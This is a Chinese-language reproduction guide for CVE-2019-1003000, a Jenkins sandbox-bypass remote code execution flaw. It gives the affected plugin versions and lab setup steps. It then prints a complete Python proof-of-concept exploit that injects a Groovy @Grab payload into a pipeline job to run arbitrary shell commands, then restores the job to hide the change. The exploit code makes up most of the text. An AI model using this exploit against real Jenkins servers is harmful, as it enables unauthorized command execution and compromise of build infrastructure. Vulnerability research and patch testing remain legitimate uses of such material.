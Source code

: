 （CVE-2019-1003000）Jenkins 远程代码执行漏洞
============================================

一、漏洞简介
------------

该漏洞存在于Declarative Plugin 1.3.4.1之前的版本, Groovy Plugin
2.61.1之前的版本以及 Script Security Plugin
1.50之前的版本。该漏洞通过将AST转换注释（如\@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有"Overall/Read"权限的用户或能够控制SCM中的Jenkinsfile或者sandboxed
Pipeline共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

二、漏洞影响
------------

Declarative Plugin \< 1.3.4.1

Groovy Plugin \< 2.61.1

Script Security Plugin \< 1.50

三、复现过程
------------

### 环境搭建

    gitclone https://github.com/ianxtianxt/cve-2019-1003000-jenkins-rce-poc.git

    cdcve-2019-1003000-jenkins-rce-poc

    pipinstall -r requirements.txt

    cdsample-vuln

    ./run.sh

**输入账号密码user1:user1**

![](./.resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId25.png)

***\*poc进行攻击pythonexploit.py --url http://www.0-sec.org:8080 --job
my-pipeline --usernameuser1 --password user1 --cmd "whoami"\****

![](./.resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId26.png)

![](./.resource/(CVE-2019-1003000)Jenkins远程代码执行漏洞/media/rId27.png)

### poc

    #!/usr/bin/python

    # Author: Adam Jordan
    # Date: 2019-02-15
    # Repository: https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
    # PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)


    import argparse
    import jenkins
    import time
    from xml.etree import ElementTree

    payload = '''
    import org.buildobjects.process.ProcBuilder
    @Grab('org.buildobjects:jproc:2.2.3')
    class Dummy{ }
    print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()
    '''


    def run_command(url, cmd, job_name, username, password):
        print '[+] connecting to jenkins...'
        server = jenkins.Jenkins(url, username, password)

        print '[+] crafting payload...'
        ori_job_config = server.get_job_config(job_name)
        et = ElementTree.fromstring(ori_job_config)
        et.find('definition/script').text = payload % cmd
        job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

        print '[+] modifying job with payload...'
        server.reconfig_job(job_name, job_config)
        time.sleep(3)

        print '[+] putting job build to queue...'
        queue_number = server.build_job(job_name)
        time.sleep(3)

        print '[+] waiting for job to build...'
        queue_item_info = {}
        while 'executable' not in queue_item_info:
            queue_item_info = server.get_queue_item(queue_number)
            time.sleep(1)

        print '[+] restoring job...'
        server.reconfig_job(job_name, ori_job_config)
        time.sleep(3)

        print '[+] fetching output...'
        last_build_number = server.get_job_info(job_name)['lastBuild']['number']
        console_output = server.get_build_console_output(job_name, last_build_number)

        print '[+] OUTPUT:'
        print console_output


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='Jenkins RCE')

        parser.add_argument('--url', help='target jenkins url')
        parser.add_argument('--cmd', help='system command to be run')
        parser.add_argument('--job', help='job name')
        parser.add_argument('--username', help='username')
        parser.add_argument('--password', help='password')

        args = parser.parse_args()

        run_command(args.url, args.cmd, args.job, args.username, args.password)

参考链接
--------

> https://www.freebuf.com/column/197026.html
